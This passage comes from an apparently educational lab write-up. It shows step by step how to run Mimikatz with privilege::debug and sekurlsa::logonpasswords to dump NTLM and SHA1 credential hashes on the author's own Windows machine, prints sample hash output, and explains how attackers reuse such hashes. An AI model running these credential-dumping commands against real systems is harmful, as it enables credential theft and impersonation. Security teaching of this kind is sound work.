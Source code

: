 ### Step 7: Let's Run Mimikatz to Extract NTLM Hashes
1. Open Command Prompt as Administrator > Navigate to the **Mimikatz** folder and run `mimikatz.exe`:
   
- cd C:\Users\Kachi\Downloads\Mimikatz\x64 (Edit to fit your file Locatio Path)
- mimikatz.exe

Your output should be similar to the output in the screenshot below:

<img width="408" alt="7a" src="https://github.com/user-attachments/assets/8835b702-a2cd-4862-bc69-f0d1c948a8f0" />


### Step 8: Let's Confirm that we have the right privilege by running the prompt below:
- privilege::debug
If this is successful, you should see the Privilege "20" Ok
<img width="304" alt="7b" src="https://github.com/user-attachments/assets/2e9be9de-2b81-4d69-9441-fc2ff2c85a27" />


### Step 9: Let's Use the following command to extract NTLM hash:
- sekurlsa::logonpasswords
<img width="411" alt="8a" src="https://github.com/user-attachments/assets/e9804ae6-054f-4272-ab31-74c1282775c1" />

### After running these Cmdlets, you should have something similar to this screenshot below:
<img width="572" alt="7" src="https://github.com/user-attachments/assets/b4b5d50d-ea11-4179-acea-0a2a7faa232b" />



## Observation
This section analyzes the output from **Mimikatz** and explains how attackers can exploit this technique to steal credentials and escalate privileges. 
![image](https://github.com/user-attachments/assets/ddb18194-f088-4c63-97e8-13136caed514)
![image](https://github.com/user-attachments/assets/78cff4e0-c658-4a9d-8373-ba25fa5526b3)


1. **Extracted Credentials:**
   - The output from **Mimikatz** shows the credentials of logged-in users, including **NTLM hashes**, **SHA1 hashes**, and other authentication data.
   - Example from the screenshot:
     ```
     * Username : Kachi
     * Domain : DESKTOP-HPNSILK
     * NTLM : a9262a62e297016f32e9937dbe346087
     * SHA1 : b5da5c1793954a9211555d36b7d2f6d0af88d957
     ```


2. **Key Observations:**
   - **NTLM Hash:** The NTLM hash (`a9262a62e297016f32e9937dbe346087`) is a cryptographic representation of the user’s password. Attackers can use this hash to impersonate the user without knowing the actual password.
   - **SHA1 Hash:** The SHA1 hash (`b5da5c1793954a9211555d36b7d2f6d0af88d957`) is another cryptographic representation of the password, often used for additional authentication mechanisms.
   - **No Plaintext Password:** In this case, the plaintext password was not retrieved, but the hashes are still valuable to attackers.
